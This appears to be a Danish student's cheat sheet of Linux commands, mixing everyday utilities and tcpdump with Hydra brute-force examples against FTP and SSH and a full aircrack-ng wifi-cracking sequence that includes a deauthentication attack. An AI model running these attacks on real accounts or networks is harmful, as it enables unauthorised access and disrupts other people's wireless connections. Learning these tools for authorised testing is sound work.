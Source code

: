 #### Funktionsmanual
```shell
man unzip
```

#### Skift password på bruger
```shell
sudo passwd <navn på brugeren>
```

#### Create eller update databasen brugt til locate kommandoen
```shell
updatedb
```

#### Sæt Tor browser som desktop app
```shell
./start-tor-browser.desktop --register-app
```



#### Eksempel på password crack med Hydra (-p string password, -P password liste, -l string username, -L list of usernames, -vV verbatim)
```shell
hydra -l admin -P /usr/share/john/password.lst -vV ftplogin.com ftp
```

#### Eksempel på bruteforce med Hydra 
```shell
hydra -l admin -V -x 4:4:IVXMLCD sshydra.com ssh
```

#### Wordcount
```shell
wc <filename>
```


#### Cut (essenetielt split fra js og python)
```shell
cut -d " " -f1 access.log| head
```

#### Uniq (Find unikke entries)
```shell
sort <filename> | uniq
```

#### tcpdump
```shell
sudo tcpdump -i eth0 host google.dk
sudo tcpdump tcp port 80 and host google.dk
sudo tcpdump tcp port 80 and dst host google.dk

# capture dns requests - DNS er på udp port 53
sudo tcpdump udp port 53 -v 
```

## aircrack-ng
```shell
sudo airmon-ng check kill # dræber alle devices der kan have indflydelse på netværket
sudo airmon-ng start wlan0 # starter netværkskortets monitoring mode
ifconfig # vi skal finde navnet på vores monitor netværk
sudo airodump-ng <netværksnavn> # begynder overvågning
sudo airodump-ng --bssid <MAC på AccessPoint> --channel <channel-nummer> --write <gemt fil med packets> <netværkskort> # fanger packets fra det valgte wifi
sudo aireplay-ng --deauth 50 -a <MAC på accesspoint> <netværkskort> # sender et deauth attack
sudo aircrack-ng <navn på gemt fil med packets> -w <en valgt wordlist> # cracker wifi password
```
